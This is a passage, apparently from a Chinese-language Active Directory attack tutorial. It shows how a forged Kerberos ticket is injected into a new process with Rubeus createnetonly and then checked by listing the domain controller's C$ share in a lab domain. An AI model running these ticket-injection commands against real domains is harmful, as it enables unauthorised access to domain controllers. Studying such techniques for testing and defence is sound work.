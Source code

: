 [![](assets/1707953845-b007463d26f70c48e4e7cf7ce6a424cd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040821-4f7d53b4-c462-1.png)

控制台太小截图不完整，应该用最后生成修改的票据：

[![](assets/1707953845-ecec3997ebb5b935b1ba730773ab2cd4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040829-543d873e-c462-1.png)

复制到/ticket 后面，执行如下命令，这将把票据注入特定进程：

```bash
execute-assembly C:\tools\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:endlessparadox /username:satoru /password:FakePass /ticket:doIG·····09N
```

再次导入验证票据是否工作，攻击成功了：

```bash
ls \\ad.endlessparadox.com\c$
```
